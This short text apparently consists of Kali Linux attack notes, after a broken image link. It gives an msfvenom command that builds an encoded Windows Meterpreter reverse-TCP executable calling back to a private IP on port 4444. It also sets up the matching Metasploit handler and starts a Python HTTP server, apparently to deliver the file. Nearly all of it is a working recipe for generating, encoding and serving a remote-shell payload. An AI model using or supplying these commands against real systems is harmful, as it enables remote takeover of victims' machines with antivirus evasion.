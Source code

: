 ##kali:

msfvenom -a x86 –platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.2.243 LPORT=4444 -b”\x00” -e x86/shikata_ga_nai -f exe > msf.exxe

set payload windows/meterpreter/reverse_tcp

set lhost 192.168.2.243

python -m SimpleHTTPServer 800